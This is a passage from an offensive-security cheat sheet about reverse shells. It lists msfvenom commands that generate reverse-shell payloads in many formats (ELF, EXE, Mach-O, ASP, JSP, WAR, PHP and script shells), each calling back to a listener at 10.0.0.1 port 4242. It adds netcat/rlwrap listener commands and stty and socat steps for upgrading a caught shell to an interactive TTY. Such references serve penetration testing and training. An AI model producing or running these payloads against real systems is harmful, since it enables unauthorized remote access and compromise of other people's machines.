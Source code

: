 ```powershell
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f elf > shell.elf
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f exe > shell.exe
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f macho > shell.macho
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f asp > shell.asp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f war > shell.war
$ msfvenom -p cmd/unix/reverse_python LHOST="10.0.0.1" LPORT=4242 -f raw > shell.py
$ msfvenom -p cmd/unix/reverse_bash LHOST="10.0.0.1" LPORT=4242 -f raw > shell.sh
$ msfvenom -p cmd/unix/reverse_perl LHOST="10.0.0.1" LPORT=4242 -f raw > shell.pl
$ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

## Spawn TTY Shell

In order to catch a shell, you need to listen on the desired port. `rlwrap` will enhance the shell, allowing you to clear the screen with `[CTRL] + [L]`.

```powershell
rlwrap nc 10.0.0.1 4242

rlwrap -r -f . nc 10.0.0.1 4242
-f . will make rlwrap use the current history file as a completion word list.
-r Put all words seen on in- and output on the completion list.
```

Sometimes, you want to access shortcuts, su, nano and autocomplete in a partially tty shell.

:warning: OhMyZSH might break this trick, a simple `sh` is recommended

> The main problem here is that zsh doesn't handle the stty command the same way bash or sh does. [...] stty raw -echo; fg[...] If you try to execute this as two separated commands, as soon as the prompt appear for you to execute the fg command, your -echo command already lost its effect

```powershell
ctrl+z
echo $TERM && tput lines && tput cols

# for bash
stty raw -echo
fg

# for zsh
stty raw -echo; fg

reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

or use `socat` binary to get a fully tty reverse shell

```bash
socat file:`tty`,raw,echo=0 tcp-listen:12345
```
